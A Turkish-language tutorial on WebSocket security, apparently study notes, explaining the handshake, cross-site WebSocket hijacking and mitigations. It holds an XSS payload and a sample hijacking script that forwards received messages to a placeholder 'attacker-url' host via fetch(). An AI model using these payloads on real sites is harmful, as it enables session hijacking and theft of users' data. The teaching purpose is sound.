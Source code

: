 # WebSockets 
WebSockets HTTP üzerinden başlatılan çift yönlü  bir iletişim protokolüdür. Web uygulamalarında genellikle veri akışı ve diğer asenkron trafik türleri için kullanılır.

# HTTP ve WebSockets Arasındaki Fark
HTTP’de istemci bir request gönderir ve sunucu bir response döner. Genellikle yanıt anında gelir ve işlem tamamlanır. Ağ bağlantısı açık kalsa bile bu bağlantı yeni bir istek–yanıt işlemi için kullanılır. WebSocket bağlantıları HTTP üzerinden başlatılır. Mesajlar, herhangi bir yönde herhangi bir zamanda gönderilebilir ve bunlar HTTP’de olduğu gibi işlemsel değildir. Bağlantı normalde açık ve beklemede kalır; istemci veya sunucu mesaj göndermeye hazır olduğunda kullanılır.

# WebSocket Bağlantıları Nasıl Kurulur
WebSocket bağlantıları genellikle istemci tarafında JavaScript ile şu şekilde oluşturulur:
```js
var ws = new WebSocket("wss://normal-website.com/chat");
```

Bağlantı kurulurken, tarayıcı ile sunucu arasında HTTP üzerinden bir WebSocket handshake işlemi gerçekleşir. Tarayıcı şu şekilde bir WebSocket handshake isteği gönderir:
```
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

Sunucu bağlantıyı kabul ederse şu şekilde bir yanıt döner:
```
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

Bu noktadan sonra ağ bağlantısı açık kalır ve her iki yönde de WebSocket mesajları gönderilebilir. Bir WebSocket bağlantısı kurulduktan sonra, istemci veya sunucu tarafından asenkron şekilde mesaj gönderilebilir. Örneğin, tarayıcı tarafında basit bir mesaj şu şekilde gönderilebilir:
```
ws.send("Peter Wiener");
```

Prensipte, WebSocket mesajları herhangi bir içerik veya veri formatı içerebilir. Modern uygulamalarda genellikle yapılandırılmış verileri göndermek için JSON kullanılır. Standart HTTP ile ortaya çıkabilecek her web güvenliği açığı, WebSocket iletişiminde de ortaya çıkabilir.

# WebSocket Mesajlarını Manipüle Ederek Açıkları Sömürmek
Örneğin:
```
{"message":"Hello Carlos"}
```

Bu içerik daha sonra şöyle render edilir:
```
<td>Hello Carlos</td>
```

Bu durumda, herhangi bir ek filtreleme veya koruma yoksa, saldırgan şu mesajı göndererek XSS  gerçekleştirebilir:
```
{"message":"<img src=1 onerror='alert(1)'>"}
```

## Zafiyetleri Sömürmek İçin WebSocket Handshake Manipülasyonu
Bazı WebSocket güvenlik açıkları yalnızca WebSocket handshake manipüle edilerek bulunabilir ve sömürülebilir. Örneğin:
- HTTP header’larına  güvenilmesi Güvenlik kararlarını almak için X-Forwarded-For gibi header’ların kullanılması.
- Oturum yönetimindeki zafiyetler  WebSocket mesajlarının işlendiği oturum bağlamı , genellikle handshake mesajındaki oturum bağlamına göre belirlenir.

## Zafiyetleri Sömürmek İçin Cross-Site WebSockets Kullanımı
Bazı WebSocket güvenlik açıkları, saldırganın kendi kontrolündeki bir web sitesinden cross-domain WebSocket bağlantısı kurmasıyla ortaya çıkar. Buna cross-site WebSocket hijacking saldırısı denir ve genellikle WebSocket handshake üzerindeki bir CSRF (Cross-Site Request Forgery) açığından faydalanır. 

Örneğin, aşağıdaki WebSocket handshake isteği muhtemelen CSRF’ye karşı savunmasızdır, çünkü tek oturum token’ı cookie içinde iletilmektedir:
```
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```
Handshake isteği CSRF’ye karşı savunmasızsa, saldırganın web sayfası çapraz bir istekle hedef sitede WebSocket açabilir. Saldırının bundan sonraki kısmı tamamen uygulamanın mantığına ve WebSocket’leri nasıl kullandığına bağlıdır. Saldırı şunları içerebilir:
- Kurban kullanıcı adına yetkisiz işlemler gerçekleştirmek için WebSocket mesajları göndermek.
- Hassas verileri elde etmek için WebSocket mesajları göndermek.

Örnek exploit:
```html
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://attacker-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

# WebSocket Bağlantısını Güvenli Hale Getirmek
WebSocket kullanırken güvenlik açıklarının ortaya çıkma riskini azaltmak için şu önerilere uyun:
- wss:// protokolünü kullanın (TLS üzerinden WebSocket).
- WebSocket handshake mesajını CSRF’ye karşı koruyun, böylece cross-site WebSocket hijacking açığını önlemiş olursunuz.
- WebSocket üzerinden alınan verileri her iki yönde de güvenilmez kabul edin. Hem sunucu hem de istemci tarafında verileri güvenli şekilde işleyin; böylece SQL injection veya XSS gibi girdi tabanlı açıkları önlersiniz.